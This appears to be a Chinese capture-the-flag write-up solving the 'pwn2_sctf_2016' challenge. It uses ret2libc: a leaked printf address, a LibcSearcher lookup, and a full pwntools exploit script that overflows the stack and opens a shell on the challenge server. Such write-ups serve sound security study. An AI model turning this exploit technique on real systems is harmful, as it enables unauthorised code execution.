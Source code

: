 文件本身不存在可以直接getshell的函数（并且附赠了一堆没用的gadget），故考虑**ret2libc**，首先泄漏出printf函数地址，再使用LibcSearcher得到libc，最后构造`system("/bin/sh")`即可

程序中存在`%s`字符串供打印

![1__H@0HQW54N_D27DI_SM_3.png](img/a0266fa6cf9727f10ea494928a7859eb.png)

构造exp如下：

```
from pwn import *
from LibcSearcher import *

e = ELF('./pwn2_sctf_2016')

bss_addr = 0x804A040
fmtstr_addr = 0x8048702
printf_got = e.got['printf']
printf_plt = e.plt['printf']
main_addr = e.sym['main']
payload = b'A'*0x2c + p32(0xdeadbeef) + p32(printf_plt) + p32(main_addr) + p32(fmtstr_addr) + p32(printf_got)

p =remote('node3.buuoj.cn',29032)
p.sendline(b'-1')
p.sendline(payload)
p.recvuntil(b'You said')
p.recvuntil(b'\n')

printf_addr = u32(p.recv(4))
libc = LibcSearcher('printf',printf_addr)
libc_base = printf_addr - libc.dump('printf')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')
payload2 = b'A'*0x2c + p32(0xdeadbeef) + p32(sys_addr) +  5*p32(sh_addr)

p.sendline(b'-1')
p.sendline(payload2)
p.interactive() 
```

运行即可getshell
